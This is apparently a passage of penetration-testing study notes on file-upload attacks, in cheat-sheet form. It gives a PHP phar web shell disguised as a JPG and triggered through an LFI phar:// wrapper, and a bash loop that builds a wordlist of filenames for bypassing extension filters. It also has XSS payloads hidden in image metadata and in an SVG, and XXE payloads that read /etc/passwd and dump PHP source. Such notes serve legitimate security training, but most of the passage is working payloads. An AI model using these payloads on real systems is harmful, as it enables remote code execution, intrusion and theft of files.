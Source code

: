 > 	<?php
> 	$phar = new Phar('shell.phar');
> 	$phar->startBuffering();
> 	$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
> 	$phar->setStub('<?php __HALT_COMPILER(); ?>');
> 	
> 	$phar->stopBuffering();
> 	```
> 	Convert the shell to a jpg image: `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`
> 	And then trigger the shell with phar wrapper: `...index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`

**[Wordlist: PHP extensions](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)**

We can upload a file using **double extensions** and **reverse double extension**

Character injection:
* `%20`
- `%0a`
- `%00`
- `%0d0a`
- `/`
- `.\`
- `.`
- `…`
- `:`

We can build a custom wordlist with character injection:
```bash
for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done
```

**MIME-Type:**
* [File Signature](https://en.wikipedia.org/wiki/List_of_file_signatures)
* [Magic Bytes](https://opensource.apple.com/source/file/file-23/file/magic/magic.mime)

XSS with file metadata: `exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' HTB.jpg`
XSS with svg file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
XXE:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>

OR

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/contact/upload.php"> ]>
<svg>&xxe;</svg>
```